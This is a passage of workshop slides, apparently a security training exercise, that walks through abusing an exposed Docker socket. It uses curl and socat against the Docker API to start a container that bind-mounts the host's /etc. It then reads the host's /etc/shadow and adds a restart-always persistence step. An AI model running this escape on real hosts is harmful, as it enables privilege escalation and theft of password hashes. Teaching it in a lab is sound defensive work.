 ### Slide 62 - Exercise: Exposed Docker socket hijinx

```
docker run -it -v /var/run/docker.sock:/var/run/docker.sock ubuntu /bin/dash
```

```
cd var/run/ && ls -l
```

```
apt update && apt install -y curl socat
```

```
echo '{"Image":"ubuntu","Cmd":["/bin/sh"],"DetachKeys":"Ctrl-p,Ctrl-q","OpenStdin":true,"Mounts":[{"Type":"bind","Source":"/etc/","Target":"/host_etc"}]}' > container.json
```

```
curl -XPOST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock -d "$(cat container.json)" http://localhost/containers/create
```
Make note of the first 4-5 characters of the ID returned, you'll need it in the next command.
```
curl -XPOST --unix-socket /var/run/docker.sock http://localhost/containers/<id 4-5 first chars>/start
```

### Slide 63 - Exposed docker socket hijinx (cont.)

```
socat - UNIX-CONNECT:/var/run/docker.sock
```
Make sure you do this carefully and be sure to put the container id in the POST url
```
POST /containers/<id-first-5-chars>/attach?stream=1&stdin=1&stdout=1&stderr=1 HTTP/1.1
Host:
Connection: Upgrade
Upgrade: tcp


```
After hitting enter twice, the socket should return an http status indicating the connection was upgraded.
```
ls
```
```
cat /host_etc/shadow
```

### Slide 64 - Docker persistence

```
docker run -d --restart always nginx
```

